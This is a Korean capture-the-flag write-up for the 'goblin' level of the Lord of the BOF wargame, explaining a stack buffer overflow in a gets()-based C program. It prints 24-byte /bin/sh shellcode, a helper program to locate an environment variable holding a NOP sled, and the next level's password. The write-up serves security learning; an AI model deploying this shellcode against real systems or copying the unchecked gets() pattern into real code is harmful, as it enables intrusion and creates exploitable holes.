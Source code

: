 ```yaml
---
layout: post
title:  "[LOB]Level03. goblin"
subtitle:   "[LOB]cobolt → goblin"
categories: LOB
tags:
- Wargame
- LOB
- Write-up

---
```


## keyword : small buffer + stdin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```



------

### 0x01. Static Analysis



앞서 문제 cobolt와 다른점은 cobolt에서는 main함수의 argv로 입력값을 받았다면, 지금 문제는 gets를 이용하여 문제를 받는다. 따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.



------

### 0x02. Dynamic Analysis & Exploit



cobolt 문제와 동일하게 환경변수에 쉘코드를 넣고 문제를 풀어보자.



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="700px">

EUNICE 환경변수에 NOP슬라이드와 쉘코드를 넣는다.



```c
//env.c
main(){
    printf("%08x\n", getenv("EUNICE") );
}
```

EUNICE 환경변수의 주소를 구하는 프로그램을 만들어서



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135852712.png" width="400px">

EUNICE환경변수의 주소를 구해온다. (0xbffffc33)



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135928174.png" width="600px">



**goblin / hackers proof**
